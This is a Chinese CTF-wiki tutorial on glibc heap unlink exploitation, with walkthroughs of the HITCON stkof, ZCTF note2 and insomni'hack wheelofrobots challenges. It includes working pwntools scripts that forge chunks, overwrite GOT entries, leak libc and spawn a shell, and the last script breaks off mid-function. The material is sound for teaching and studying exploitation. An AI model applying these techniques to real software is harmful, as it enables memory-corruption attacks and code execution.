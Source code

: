 Unlink
======

原理
----

我们在利用 unlink 所造成的漏洞时，其实就是对进行 unlink chunk 进行内存布局，然后借助 unlink 操作来达成修改指针的效果。

我们先来简单回顾一下 unlink 的目的与过程，其目的是把一个双向链表中的空闲块拿出来，然后和目前物理相邻的 free chunk 进行合并。其基本的过程如下

|image0|

下面我们首先介绍一下 unlink 最初没有防护时的利用方法，然后介绍目前利用 unlink 的方式。

古老的 unlink
~~~~~~~~~~~~~

在最初 unlink 实现的时候，其实是没有对双向链表检查的，也就是说，没有以下的代码。

.. code:: c

    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
          malloc_printerr ("corrupted size vs. prev_size");               \
    // fd bk
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
      
      // next_size related
                  if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                    || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
                  malloc_printerr (check_action,                                      \
                                   "corrupted double-linked list (not small)",    \
                                   P, AV);   

**这里我们以 32 位为例**\ ，假设堆内存最初的布局是下面的样子

|image1|

那么如果我们通过某种方式（\ **比如溢出**\ ）将 Nextchunk 的 fd 和 bk 指针修改为指定的值。则当我们free(Q)时

1. glibc 判断这个块是 small chunk。
2. 判断前向合并，发现前一个 chunk 处于使用状态，不需要前向合并。
3. 判断后向合并，发现后一个 chunk 处于空闲状态，需要合并。
4. 继而对 nextchunk 采取 unlink 操作。

那么 unlink 具体执行的效果是什么样子呢？我们可以来分析一下

-  FD=P->fd = target addr -12
-  BK=P->bk = expect value
-  FD->bk = BK，即 \*(target addr-12+12)=BK=expect value
-  BK->fd = FD，即*(expect value +8) = FD = target addr-12

**看起来我们似乎可以通过 unlink 直接实现任意地址读写的目的，但是我们还是需要确保 expect value +8 地址具有可写的权限。**

比如说我们将 target addr 设置为某个 got 表项，那么当程序调用对应的 libc 函数时，就会直接执行我们设置的值（expect value）处的代码。\ **需要注意的是，expect value+8 处的值被破坏了，需要想办法绕过。**

当前的 unlink
~~~~~~~~~~~~~

**但是，现实是残酷的。。**\ 我们刚才考虑的是没有检查的情况，但是一旦加上检查，就没有这么简单了。我们看一下对 fd 和 bk 的检查

.. code:: c

    // fd bk
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

此时

-  FD->bk = target addr - 12 + 12=target_addr
-  BK->fd = expect value + 8

那么我们上面所利用的修改 GOT 表项的方法就可能不可用了。但是，如果我们使得 expect value+8 以及 target_addr 等于 P，那么我们就可以执行

-  \*P= expect value = P - 8
-  \*P = target addr -12 = P - 12

即改写了指针 P 的内容，将其指向了比自己低 12 的地址处。

而如果我们想要使得两者都指向 P，只需要安装如下方式修改即可

|image2|

我们会通过之后的例子来说明，我们这样的修改是可以达到一定的效果的。

需要注意的是，这里我们并没有违背下面的约束。

.. code:: c

        // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
        if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
          malloc_printerr ("corrupted size vs. prev_size");               \

**此外，其实如果我们设置next chunk 的 fd 和 bk 均为 nextchunk 的地址也是可以绕过上面的检测的。但是这样的话，并不能达到修改指针内容的效果。**

2014 HITCON stkof
-----------------

基本信息
~~~~~~~~

.. code:: shell

    ➜  2014_hitcon_stkof git:(master) file stkof   
    stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
    ➜  2014_hitcon_stkof git:(master) checksec stkof        
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2014_hitcon_stkof/stkof'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出，程序是 64 位的，主要开启了 Canary 和 NX 保护。

基本功能
~~~~~~~~

程序几乎啥输出也没有，只能硬看了，大概是一个内存分配器，差不多有四个功能

-  1，分配指定大小的内存，并在bss段记录对应 chunk 的指针，假设其为global。
-  2，根据指定索引，以及指定大小向指定内存处，读入数据。\ **可见，这里存在堆溢出的情况，因为这里读入字节的大小是由我们来控制的。**
-  3，根据指定索引，释放已经分配的内存块。
-  4，这个功能并没有什么乱用，本来以为是可以输出内容，结果什么也没有输出。。

初步测试
~~~~~~~~

值得注意的是，由于程序本身没有进行 setbuf 操作，所以在执行输入输出操作的时候会申请缓冲区。这里经过测试，会申请两个缓冲区，分别大小为1024 和 1024。具体如下，可以进行调试查看

初次调用 fgets 时，malloc会分配缓冲区 1024 大小。

::

    *RAX  0x0
    *RBX  0x400
    *RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
    *RDX  0x88
    *RDI  0x400
    *RSI  0x7fffffffd860 ◂— 0x16
    *R8   0x1
    *R9   0x0
    *R10  0x7ffff7fd2700 ◂— 0x7ffff7fd2700
    *R11  0x246
    *R12  0xa
    *R13  0x9
     R14  0x0
    *R15  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
    *RBP  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
    *RSP  0x7fffffffd858 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
    *RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
    ─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
     ► 0x7ffff7a91130 <malloc>        push   rbp <0x7ffff7dd18e0>
    ...，省略
     ► f 0     7ffff7a91130 malloc
       f 1     7ffff7a7a1d5 _IO_file_doallocate+85
       f 2     7ffff7a88594 _IO_doallocbuf+52
       f 3     7ffff7a8769c _IO_file_underflow+508
       f 4     7ffff7a8860e _IO_default_uflow+14
       f 5     7ffff7a7bc6a _IO_getline_info+170
       f 6     7ffff7a7bd78
       f 7     7ffff7a7ab7d fgets+173
       f 8           400d2e
       f 9     7ffff7a2d830 __libc_start_main+240

分配之后，堆如下

::

    pwndbg> heap
    Top Chunk: 0xe05410
    Last Remainder: 0

    0xe05000 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05410 PREV_INUSE {
      prev_size = 0, 
      size = 134129, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

当分配16大小的内存后，堆布局如下

::

    pwndbg> heap
    Top Chunk: 0xe05430
    Last Remainder: 0

    0xe05000 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0xa3631, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05410 FASTBIN {
      prev_size = 0, 
      size = 33, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x20bd1
    }
    0xe05430 PREV_INUSE {
      prev_size = 0, 
      size = 134097, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

当使用 printf 函数，会分配 1024 字节空间，如下

::

    *RAX  0x0
    *RBX  0x400
    *RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
    *RDX  0x88
    *RDI  0x400
    *RSI  0x7fffffffd1c0 ◂— 0x16
     R8   0x0
    *R9   0x0
    *R10  0x0
    *R11  0x246
    *R12  0x1
    *R13  0x7fffffffd827 ◂— 0x31 /* '1' */
     R14  0x0
    *R15  0x400de4 ◂— and    eax, 0x2e000a64 /* '%d\n' */
    *RBP  0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2284
    *RSP  0x7fffffffd1b8 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
    *RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
    ─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
     ► 0x7ffff7a91130 <malloc>       push   rbp <0x7ffff7dd2620>
    。。。省略
    ► f 0     7ffff7a91130 malloc
       f 1     7ffff7a7a1d5 _IO_file_doallocate+85
       f 2     7ffff7a88594 _IO_doallocbuf+52
       f 3     7ffff7a878f8 _IO_file_overflow+456
       f 4     7ffff7a8628d _IO_file_xsputn+173
       f 5     7ffff7a5ae00 vfprintf+3216
       f 6     7ffff7a62899 printf+153
       f 7           4009cd
       f 8           400cb1
       f 9     7ffff7a2d830 __libc_start_main+240

堆布局如下

::

    pwndbg> heap
    Top Chunk: 0xe05840
    Last Remainder: 0

    0xe05000 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0xa3631, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05410 FASTBIN {
      prev_size = 0, 
      size = 33, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x411
    }
    0xe05430 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0xa4b4f, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05840 PREV_INUSE {
      prev_size = 0, 
      size = 133057, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

此后，无论是输入输出都不会再申请缓冲去了。所以我们最好最初的申请一个 chunk 来把这些缓冲区给申请了，方便之后操作。

但是，比较有意思的是，如果我们是 attach 上去的话，第一个缓冲区分配的大小为 4096 大小。

::

    pwndbg> heap
    Top Chunk: 0x1e9b010
    Last Remainder: 0

    0x1e9a000 PREV_INUSE {
      prev_size = 0, 
      size = 4113, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0x1e9b010 PREV_INUSE {
      prev_size = 0, 
      size = 135153, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

基本思路
~~~~~~~~

根据上面分析，我们在前面先分配一个 chunk 来把缓冲区分配完毕，以免影响之后的操作。

由于程序本身没有 leak，要想执行 system 等函数，我们的首要目的还是先构造 leak，基本思路如下

-  利用 unlink 修改 global[2] 为 &global[2]-0x18。
-  利用编辑功能修改 global[0] 为 free@got 地址，同时修改 global[1] 为puts@got 地址，global[2] 为 atoi@got 地址。
-  修改 ``free@got`` 为 ``puts@plt`` 的地址，从而当再次调用 ``free`` 函数时，即可直接调用 puts 函数。这样就可以泄漏函数内容。
-  free global[2]，即泄漏 puts@got 内容，从而知道 system 函数地址以及 libc 中 /bin/sh 地址。
-  修改 ``atoi@got`` 为 system 函数地址，再次调用时，输入 /bin/sh 地址即可。

代码如下

.. code:: python

    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    if args['DEBUG']:
        context.log_level = 'debug'
    context.binary = "./stkof"
    stkof = ELF('./stkof')
    if args['REMOTE']:
        p = remote('127.0.0.1', 7777)
    else:
        p = process("./stkof")
    log.info('PID: ' + str(proc.pidof(p)[0]))
    libc = ELF('./libc.so.6')
    head = 0x602140


    def alloc(size):
        p.sendline('1')
        p.sendline(str(size))
        p.recvuntil('OK\n')


    def edit(idx, size, content):
        p.sendline('2')
        p.sendline(str(idx))
        p.sendline(str(size))
        p.send(content)
        p.recvuntil('OK\n')


    def free(idx):
        p.sendline('3')
        p.sendline(str(idx))


    def exp():
        # trigger to malloc buffer for io function
        alloc(0x100)  # idx 1
        # begin 
        alloc(0x30)  # idx 2
        # small chunk size in order to trigger unlink
        alloc(0x80)  # idx 3
        # a fake chunk at global[2]=head+16 who's size is 0x20
        payload = p64(0)  #prev_size
        payload += p64(0x20)  #size
        payload += p64(head + 16 - 0x18)  #fd
        payload += p64(head + 16 - 0x10)  #bk
        payload += p64(0x20)  # next chunk's prev_size bypass the check
        payload = payload.ljust(0x30, 'a')
        # overwrite global[3]'s chunk's prev_size
        # make it believe that prev chunk is at global[2]
        payload += p64(0x30)
        # make it believe that prev chunk is free
        payload += p64(0x90)
        edit(2, len(payload), payload)
        # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
        free(3)
        p.recvuntil('OK\n')
        #gdb.attach(p)
        # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
        payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
            stkof.got['atoi'])
        edit(2, len(payload), payload)
        # edit free@got to puts@plt
        payload = p64(stkof.plt['puts'])
        edit(0, len(payload), payload)

        #free global[1] to leak puts addr
        free(1)
        puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
        puts_addr = u64(puts_addr)
        log.success('puts addr: ' + hex(puts_addr))
        libc_base = puts_addr - libc.symbols['puts']
        binsh_addr = libc_base + next(libc.search('/bin/sh'))
        system_addr = libc_base + libc.symbols['system']
        log.success('libc base: ' + hex(libc_base))
        log.success('/bin/sh addr: ' + hex(binsh_addr))
        log.success('system addr: ' + hex(system_addr))
        # modify atoi@got to system addr
        payload = p64(system_addr)
        edit(2, len(payload), payload)
        p.send(p64(binsh_addr))
        p.interactive()


    if __name__ == "__main__":
        exp()

2016 ZCTF note2
---------------

分析程序
~~~~~~~~

首先，我们先分析一下程序，可以看出程序的主要功能为

-  添加note，size限制为0x80，size会被记录，note指针会被记录。
-  展示note内容。
-  编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
-  释放note。

仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

.. code:: c

    unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
    {
      char v4; // [sp+Ch] [bp-34h]@1
      char buf; // [sp+2Fh] [bp-11h]@2
      unsigned __int64 i; // [sp+30h] [bp-10h]@1
      __int64 v7; // [sp+38h] [bp-8h]@2

      v4 = a3;
      for ( i = 0LL; a2 - 1 > i; ++i )
      {
        v7 = read(0, &buf, 1uLL);
        if ( v7 <= 0 )
          exit(-1);
        if ( buf == v4 )
          break;
        *(_BYTE *)(i + a1) = buf;
      }
      *(_BYTE *)(a1 + i) = 0;
      return i;
    }

其中i是unsigned类型，a2为int类型，所以两者在for循环相比较的时候，a2-1的结果-1会被视为unsigned类型，此时，即最大的整数。所以说可以读取任意长度的数据，这里也就是后面我们溢出所使用的办法。

.. 基本思路-1:

基本思路
~~~~~~~~

这里我们主要利用发现的第一个问题，主要利用了 fastbin 的机制、unlink 的机制。

下面依次进行讲解。

基本操作
^^^^^^^^

首先，我们先把note可能的基本操作列举出来。

.. code:: python

    p = process('./note2')
    note2 = ELF('./note2')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    context.log_level = 'debug'


    def newnote(length, content):
        p.recvuntil('option--->>')
        p.sendline('1')
        p.recvuntil('(less than 128)')
        p.sendline(str(length))
        p.recvuntil('content:')
        p.sendline(content)


    def shownote(id):
        p.recvuntil('option--->>')
        p.sendline('2')
        p.recvuntil('note:')
        p.sendline(str(id))


    def editnote(id, choice, s):
        p.recvuntil('option--->>')
        p.sendline('3')
        p.recvuntil('note:')
        p.sendline(str(id))
        p.recvuntil('2.append]')
        p.sendline(str(choice))
        p.sendline(s)


    def deletenote(id):
        p.recvuntil('option--->>')
        p.sendline('4')
        p.recvuntil('note:')
        p.sendline(str(id))

生成三个note
^^^^^^^^^^^^

这一部分对应的代码如下

.. code:: python

    # chunk0: a fake chunk
    ptr = 0x0000000000602120
    fakefd = ptr - 0x18
    fakebk = ptr - 0x10
    content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
    #content = p64(fakefd) + p64(fakebk)
    newnote(128, content)
    # chunk1: a zero size chunk produce overwrite
    newnote(0, 'a' * 8)
    # chunk2: a chunk to be overwrited and freed
    newnote(0x80, 'b' * 16)

其中这三个note的大小分别为0x80，0，0x80，第二个chunk虽然申请的大小为0，但是glibc的要求chunk块至少可以存储4个必要的字段(prev_size,size,fd,bk)，所以会分配0x20的空间。同时，由于无符号整数的比较问题，可以为该note输入任意长的字符串。

这里需要注意的是，chunk1中一共构造了两个chunk

-  chunk ptr[0]，这个是为了unlink时修改对应的值。
-  chunk ptr[0]’s nextchunk，这个是为了使得unlink时的第一个检查满足。

.. code:: c

        // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
        if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
          malloc_printerr ("corrupted size vs. prev_size");               \

当构造完三个 note 后，堆的基本构造如图1所示。

::

                                       +-----------------+ high addr
                                       |      ...        |
                                       +-----------------+
                                       |      'b'*8      |
                    ptr[2]-----------> +-----------------+
                                       |    size=0x91    |
                                       +-----------------+
                                       |    prevsize     |
                                       +-----------------+------------
                                       |    unused       |
                                       +-----------------+
                                       |    'a'*8        |
                     ptr[1]----------> +-----------------+  chunk 1
                                       |    size=0x20    |
                                       +-----------------+
                                       |    prevsize     |
                                       +-----------------+-------------
                                       |    unused       |
                                       +-----------------+
                                       |  prev_size=0x60 |
    fake ptr[0] chunk's nextchunk----->+-----------------+
                                       |    64*'a'       |
                                       +-----------------+
                                       |    fakebk       |
                                       +-----------------+
                                       |    fakefd       |
                                       +-----------------+
                                       |    0x61         |  chunk 0
                                       +-----------------+
                                       |    'a *8        |
                     ptr[0]----------> +-----------------+
                                       |    size=0x91    |
                                       +-----------------+
                                       |    prev_size    |
                                       +-----------------+  low addr
                                               图1

释放chunk1-覆盖chunk2-释放chunk2
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

对应的代码如下

.. code:: python

    # edit the chunk1 to overwrite the chunk2
    deletenote(1)
    content = 'a' * 16 + p64(0xa0) + p64(0x90)
    newnote(0, content)
    # delete note 2 to trigger the unlink
    # after unlink, ptr[0] = ptr - 0x18
    deletenote(2)

首先释放 chunk1，由于该chunk属于fastbin，所以下次在申请的时候仍然会申请到该chunk，同时由于上面所说的类型问题，我们可以读取任意字符，所以就可以覆盖chunk3，覆盖之后如图2所示。

::

                                       +-----------------+high addr
                                       |      ...        |
                                       +-----------------+
                                       |   '\x00'+'b'*7  |
                    ptr[2]-----------> +-----------------+ chunk 2
                                       |    size=0x90    |
                                       +-----------------+
                                       |    0xa0         |
                                       +-----------------+------------
                                       |    'a'*8        |
                                       +-----------------+
                                       |    'a'*8        |
                     ptr[1]----------> +-----------------+ chunk 1
                                       |    size=0x20    |
                                       +-----------------+
                                       |    prevsize     |
                                       +-----------------+-------------
                                       |    unused       |
                                       +-----------------+
                                       |  prev_size=0x60 |
    fake ptr[0] chunk's nextchunk----->+-----------------+
                                       |    64*'a'       |
                                       +-----------------+
                                       |    fakebk       |
                                       +-----------------+
                                       |    fakefd       |
                                       +-----------------+
                                       |    0x61         |  chunk 0
                                       +-----------------+
                                       |    'a *8        |
                     ptr[0]----------> +-----------------+
                                       |    size=0x91    |
                                       +-----------------+
                                       |    prev_size    |
                                       +-----------------+  low addr
                                               图2

该覆盖主要是为了释放chunk2的时候可以后向合并（合并低地址），对chunk0中虚拟构造的chunk进行unlink。即将要执行的操作为unlink(ptr[0])，同时我们所构造的fakebk和fakefd满足如下约束

.. code:: c

        if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \

unlink成功执行，会导致ptr[0]所存储的地址变为fakebk，即ptr-0x18。

获取system地址
^^^^^^^^^^^^^^

代码如下

.. code:: python

    # overwrite the chunk0(which is ptr[0]) with got atoi
    atoi_got = note2.got['atoi']
    content = 'a' * 0x18 + p64(atoi_got)
    editnote(0, 1, content)
    # get the aoti addr
    shownote(0)

    sh.recvuntil('is ')
    atoi_addr = sh.recvuntil('\n', drop=True)
    print atoi_addr
    atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
    print 'leak atoi addr: ' + hex(atoi_addr)

    # get system addr
    atoi_offest = libc.symbols['atoi']
    libcbase = atoi_addr - atoi_offest
    system_offest = libc.symbols['system']
    system_addr = libcbase + system_offest

    print 'leak system addr: ', hex(system_addr)

我们修改ptr[0]的内容为 ptr 的地址-0x18，所以当我们再次编辑 note0 时，可以覆盖ptr[0]的内容。这里我们将其覆盖为atoi的地址。 这样的话，如果我们查看note 0的内容，其实查看的就是atoi的地址。

之后我们根据 libc 中对应的偏移计算出 system 的地址。

修改atoi got
^^^^^^^^^^^^

.. code:: python

    # overwrite the atoi got with systemaddr
    content = p64(system_addr)
    editnote(0, 1, content)

由于此时 ptr[0] 的地址 got 表的地址，所以我们可以直接修改该 note，覆盖为 system 地址。

get shell
^^^^^^^^^

.. code:: python

    # get shell
    sh.recvuntil('option--->>')
    sh.sendline('/bin/sh')
    sh.interactive()

此时如果我们再调用 atoi ，其实调用的就是 system 函数，所以就可以拿到shell了。

2017 insomni’hack wheelofrobots
-------------------------------

.. 基本信息-1:

基本信息
~~~~~~~~

.. code:: shell

    ➜  2017_insomni'hack_wheelofrobots git:(master) file wheelofrobots 
    wheelofrobots: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=48a9cceeb7cf8874bc05ccf7a4657427fa4e2d78, stripped
    ➜  2017_insomni'hack_wheelofrobots git:(master) checksec wheelofrobots 
    [*] "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2017_insomni'hack_wheelofrobots/wheelofrobots"
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

动态链接64位，主要开启了 canary 保护与 nx 保护。

.. 基本功能-1:

基本功能
~~~~~~~~

大概分析程序，可以得知，这是一个配置机器人轮子的游戏，机器人一共需要添加 3 个轮子。

程序非常依赖的一个功能是读取整数，该函数read_num是读取指定的长度，将其转化为 int 类型的数字。

具体功能如下

-  添加轮子，一共有 6 个轮子可以选择。选择轮子时使用函数是read_num，然而该函数在读取的时候\ ``read_num((char *)&choice, 5uLL);`` 读取的长度是 5 个字节，恰好覆盖了 bender_inuse 的最低字节，即构成了
   off-by-one 漏洞。与此同时，在添加 Destructor 轮子的时候，并没有进行大小检测。如果读取的数为负数，那么在申请\ ``calloc(1uLL, 20 * v5);`` 时就可能导致 ``20*v5`` 溢出，但与此同时，
   ``destructor_size = v5`` 仍然会很大。
-  移除轮子，直接将相应轮子移除，但是并没有将其对应的指针设置为 NULL ，其对应的大小也没有清空。
-  修改轮子名字，这个是根据当时申请的轮子的大小空间来读取数据。之前我们已经说过 destructor 轮子读取大小时，并没有检测负数的情况，所以在进行如下操作时
   ``result = read(0, destructor, 20 * destructor_size);`` ，存在几乎任意长度溢出的漏洞。
-  启动机器人，在启动的时候会随机地输出一些轮子的名称，这个是我们难以控制的。

综上分析，我们可以知道的是，该程序主要存在的漏洞 off-by-one 与整数溢出。这里我们主要使用前面的off-by-one 漏洞。

利用思路
~~~~~~~~

基本利用思路如下

1. 利用 off by one 漏洞与 fastbin attack 分配 chunk 到 0x603138，进而可以控制 ``destructor_size``\ 的大小，从而实现任意长度堆溢出。这里我们将轮子1 tinny 分配到这里。
2. 分别分配合适大小的物理相邻的 chunk，其中包括 destructor。借助上面可以任意长度堆溢出的漏洞，对 destructor 对应的 chunk 进行溢出，将其溢出到下一个物理相邻的 chunk，从而实现对 0x6030E8 处 fake chunk
   进行 unlink 的效果，这时 bss 段的 destructor 指向 0x6030D0。从而，我们可以再次实现覆盖bss 段几乎所有的内容。
3. 构造一个任意地址写的漏洞。通过上述的漏洞将已经分配的轮子1 tinny 指针覆盖为 destructor 的地址，那么此后编辑 tinny 即在编辑 destructor 的内容，进而当我们再次编辑 destructor 时就相当于任意低地址写。
4. 由于程序只是在最后启动机器人的时候，才会随机输出一些轮子的内容，并且一旦输出，程序就会退出，由于这部分我们并不能控制，所以我们将 ``exit()`` patch 为一个 ``ret``
   地址。这样的话，我们就可以多次输出内容了，从而可以泄漏一些 got 表地址。\ **其实，既然我们有了任意地址写的漏洞，我们也可以将某个 got 写为 puts 的 plt
   地址，进而调用相应函数时便可以直接将相应内容输出。但是这里并不去采用这种方法，因为之前已经在 hitcon stkof 中用过这种手法了。**
5. 在泄漏了相应的内容后，我们便可以得到 libc 基地址，system 地址，libc中的 /bin/sh 地址。进而我们修改 free@got 为 system 地址。从而当再次释放某块内存时，便可以启动shell。

代码如下

.. code:: python

    from pwn import *
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    if args['DEBUG']:
        context.log_level = 'debug'
    context.binary = "./wheelofrobots"
    robots = ELF('./wheelofrobots')
    if args['REMOTE']:
        p = remote('127.0.0.1', 7777)
    else:
        p = process("./wheelofrobots")
    log.info('PID: ' + str(proc.pidof(p)[0]))
    libc = ELF('./libc.so.6')


    def offset_bin_main_arena(idx):
        word_bytes = context.word_size / 8
        offset = 4  # lock
        offset += 4  # flags
        offset += word_bytes * 10  # offset fastbin
        offset += word_bytes * 2  # top,last_remainder
        offset += idx * 2 * word_bytes  # idx
        offset -= word_bytes * 2  # bin overlap
        return offset


    def add(idx, size=0):
        p.recvuntil('Your choice :')
        p.sendline('1')
